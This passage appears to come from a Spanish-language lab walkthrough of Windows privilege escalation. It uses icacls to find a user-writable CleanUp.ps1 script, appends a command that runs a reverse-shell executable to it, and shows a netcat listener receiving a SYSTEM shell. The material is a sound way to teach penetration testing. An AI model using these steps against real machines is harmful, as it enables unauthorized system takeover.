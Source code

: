 ```
icacls C:\DevTools\CleanUp.ps1
C:\DevTools\CleanUp.ps1 BUILTIN\Users:(M)
                        NT AUTHORITY\SYSTEM:(F)
                        BUILTIN\Administrators:(F)
                        WIN-QBA94KB3IOF\Administrator:(F)
                        NT AUTHORITY\SYSTEM:(I)(F)
                        BUILTIN\Administrators:(I)(F)
                        BUILTIN\Users:(I)(RX)
```

Inicie un oyente en kali y luego agregue una linea a `C:\DevTools\CleanUp.ps1` que ejecuta el ejecutable reverse.exe que creó

```
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

```
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.102.237] from (UNKNOWN) [10.10.125.244] 49971
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

----


